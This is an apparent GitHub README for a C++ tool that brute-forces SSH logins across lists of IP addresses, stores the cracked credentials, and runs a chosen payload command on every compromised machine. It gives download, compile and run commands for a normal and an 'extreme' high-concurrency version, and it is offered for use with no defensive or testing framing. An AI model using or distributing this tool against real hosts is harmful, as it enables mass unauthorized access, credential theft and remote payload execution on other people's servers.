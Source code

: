# Massive SSH Bruter with Payload loader
This program brute the ssh from a .txt IP addresses list then, execute a configured payload when the machine get bruted. The code is written in C++ and high optimized.

## This bruter can do
> - Brute the SSH from IP addresses list.
> - Save the bruted machines credentials into a .txt file.
> - Execute a command when some machine from the .txt get bruted.
> - Show via terminal the attemped IPs, total IPs, total attemps and bruted IPs.


## Software requeriments
> - Debian or Red Hat linux based OS.
> - libssh from C++ installed.
> - An IP addresses list with least 128 IPs.
> - A .txt file with a payload (can be a random linux command).


## Hardware requeriments
- ### Minimum
> - 1 vCore with least 1300 single-thread score.
> - 1 GB Ram.
- ### Recommended
> - 2 vCores with least 1600 single-thread score.
> - 2 GB Ram.
- ### Real experience (Only for run the extreme version)
> - 6 vCores with least 3000 single-thread score.
> - 4 GB Ram.


## Installation & Execution (Normal version)
- ### One time commands
> - Debian based OS: `apt install libssh-dev wget`
> - Red Hat based OS: `yum install libssh-devel` ***/*** `dnf install libssh-devel`
> - `wget https://github.com/Samuel9221991/Masive-SSH-Bruter-Payload-Loader/releases/download/v1.0/ssh_bruter`
> - `chmod +x ./ssh_bruter`

- ### Execution commands
> - `./ssh_bruter ips_to_brute.txt payload.txt`


## Installation & Execution (Extreme version)
- ### One time commands
> - Debian based OS: `apt install libssh-dev wget`
> - Red Hat based OS: `yum install libssh-devel` ***/*** `dnf install libssh-devel`
> - `wget https://github.com/Samuel9221991/Masive-SSH-Bruter-Payload-Loader/releases/download/v1.0/ssh_bruter_extreme`
> - `ulimit -n 999999`
> - `chmod +x ./ssh_bruter_extreme`

- ### Execution commands
> - `./ssh_bruter_extreme ips_to_brute.txt payload.txt`


## How compile the source code (Normal Version)
- ### One time commands
> - Debian based OS: `apt update -y && apt upgrade -y; apt install -y g++ libssh-dev wget`
> - Red Hat based OS: `sudo yum -y update && sudo yum -y install gcc-c++ libssh-devel` ***/*** `sudo dnf -y update && sudo dnf -y install gcc-c++ libssh-devel`
> - `wget https://raw.githubusercontent.com/Samuel9221991/Masive-SSH-Bruter-Payload-Loader/main/ssh_bruter.cpp`

### Compilation commands
> - `g++ ssh_bruter.cpp -o ssh_bruter -lssh -lpthread`


## How compile the source code (Extreme Version)
- ### One time commands
> - Debian based OS: `apt update -y && apt upgrade -y; apt install -y g++ libssh-dev wget`
> - Red Hat based OS: `sudo yum -y update && sudo yum -y install gcc-c++ libssh-devel` ***/*** `sudo dnf -y update && sudo dnf -y install gcc-c++ libssh-devel`
> - `wget https://raw.githubusercontent.com/Samuel9221991/Masive-SSH-Bruter-Payload-Loader/main/ssh_bruter_extreme.cpp`

### Compilation commands
> - `g++ ssh_bruter_extreme.cpp -o ssh_bruter_extreme -lssh -lpthread`



![Captura de pantalla 2024-02-17 175730](https://github.com/Samuel9221991/Masive-SSH-Bruter-Payload-Loader/assets/84253067/1d1f1877-7c72-4bb5-982a-54ead5d1894b)

*Made in Mexico <3*

